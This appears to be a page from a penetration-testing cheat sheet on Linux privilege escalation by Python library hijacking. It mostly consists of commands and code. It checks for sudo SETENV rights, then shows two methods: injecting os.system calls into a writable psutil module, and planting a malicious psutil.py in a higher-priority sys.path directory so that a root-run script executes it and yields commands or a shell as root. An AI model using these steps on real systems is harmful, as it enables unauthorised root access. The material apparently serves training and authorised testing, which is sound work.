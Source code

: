 ### Check Sudo Permissions
```bash
# Look for SETENV permissions
sudo -l | grep -E "(SETENV|python)"

# Example: (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

## 🚀 Exploitation Methods

### Method 1: Writable Module Hijacking
```bash
# 1. Find SUID Python script
ls -la mem_status.py
# -rwsrwxr-x 1 root mrb3n 188 Dec 13 20:13 mem_status.py

# 2. Check imports
cat mem_status.py
# import psutil

# 3. Find module location
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*

# 4. Check permissions
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
# -rw-r--rw- 1 root staff 87339 Dec 13 20:07

# 5. Inject malicious code
# Edit the virtual_memory() function:
# def virtual_memory():
#     import os
#     os.system('id')  # or os.system('/bin/bash')
```

### Method 2: Path Precedence Exploitation
```bash
# 1. Check Python paths
python3 -c 'import sys; print("\n".join(sys.path))'

# 2. Find writable higher-priority directory
ls -la /usr/lib/python3.8/
# drwxr-xrwx 30 root root 20480 Dec 14 16:26

# 3. Create malicious module
cat > /usr/lib/python3.8/psutil.py << EOF
#!/usr/bin/env python3
import os

def virtual_memory():
    os.system('id')
    # Return None to avoid attribute errors
EOF

# 4. Execute SUID script
sudo python3 mem_status.py
```
